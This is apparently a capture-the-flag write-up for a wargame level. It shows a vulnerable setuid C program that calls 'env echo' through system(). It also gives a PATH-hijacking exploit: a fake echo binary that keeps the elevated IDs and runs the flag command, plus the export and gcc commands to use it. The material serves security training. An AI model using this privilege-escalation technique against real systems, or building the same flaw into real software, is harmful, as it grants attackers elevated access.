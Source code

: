 # Level 01

From the site we can get the code for this level:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

The program call the bash function echo, but before it evaluate the env. So we
could modify the PATH variable and put at the beginnig a location where we can
write a new function called echo, but this one instead of doing the normal echo
will print the content of the flag01.

To modify the PATH variable,:

```bash
export PATH=/home/level01:$PATH
```

Then in "/home/level01", we create our function (echo.c):

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/getflag");
}
```

```bash
gcc -o /home/level01/echo /home/level01/echo.c
```

Than we can execute the code of this level and when it will call the echo
function will call our code instead of the system one, because in the variable
PATH it is at the first position.

```bash
/home/flag01/flag01
```
